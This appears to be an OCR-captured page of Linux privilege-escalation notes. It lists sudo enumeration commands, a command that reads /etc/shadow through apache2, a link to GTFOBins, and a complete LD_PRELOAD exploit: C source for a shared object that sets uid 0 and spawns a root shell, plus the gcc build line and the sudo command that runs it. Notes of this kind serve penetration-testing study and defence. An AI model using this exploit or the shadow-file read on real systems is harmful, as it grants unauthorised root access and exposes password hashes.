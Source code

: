                                       
                                              
                                              
                                              
                                              
 ## Sudo Enumeration 
 
 
   
                 sudo -l
                 sudo --version
                 sudo apache2 -f /etc/shadow
                 
                 
		 
		 
		 
   ## Sudo resource		 
   
   https://gtfobins.github.io/
   
   
   
   
   
   
   
   ### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`




